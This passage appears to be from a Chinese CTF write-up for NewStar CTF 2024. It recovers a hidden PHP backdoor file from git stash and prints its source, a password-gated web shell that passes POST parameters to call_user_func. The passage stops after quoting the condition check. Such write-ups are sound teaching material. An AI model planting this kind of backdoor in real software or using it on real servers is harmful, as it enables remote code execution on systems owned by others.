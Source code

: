 >
>   从 Stash 中释放内容，默认为恢复最新的内容到工作区。

使用 `git stash pop` 恢复后门文件到工作区。

![image-20241018204341193](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410182043243.png)

发现了后门文件BacKd0or.v2d23AOPpDfEW5Ca.php

我们进行访问，来到第二关

![image-20241018204426356](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410182044398.png)



由于git stash pop将后门释放出去了，我们可以直接查看源码

```
<?php

# Functions to handle HTML output

function print_msg($msg) {
    $content = file_get_contents('index.html');
    $content = preg_replace('/\s*<script.*<\/script>/s', '', $content);
    $content = preg_replace('/ event/', '', $content);
    $content = str_replace('点击此处载入存档', $msg, $content);
    echo $content;
}

function show_backdoor() {
    $content = file_get_contents('index.html');
    $content = str_replace('/assets/index.4f73d116116831ef.js', '/assets/backdoor.5b55c904b31db48d.js', $content);
    echo $content;
}

# Backdoor

if ($_POST['papa'] !== 'TfflxoU0ry7c') {
    show_backdoor();
} else if ($_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])) {
    print_msg('PangBai loves you!');
    call_user_func($_POST['func'], $_POST['args']);
} else {
    print_msg('PangBai hates you!');
}

```

```
if ($_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])) {
    print_msg('PangBai loves you!');
```
